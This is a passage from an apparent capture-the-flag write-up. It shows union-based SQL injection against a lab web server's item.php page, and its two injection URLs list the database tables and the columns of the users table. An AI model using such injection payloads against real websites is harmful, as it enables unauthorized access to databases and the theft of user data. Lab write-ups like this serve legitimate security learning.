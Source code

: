 ![jurassic-db](/assets/images/2021-01-27-22-33-52.png)

With the database name we can now find the tables:

```text
http://10.10.9.16/item.php?id=5 union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema = database()
```

![jurassic-tables](/assets/images/2021-01-27-22-36-45.png)

We have two tables, users and items. Looking at the users table, we see two columns are in it:

```text
http://10.10.9.16/item.php?id=5 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema = database() and table_name = "users"
```

![jurassic-columns](/assets/images/2021-01-27-22-41-22.png)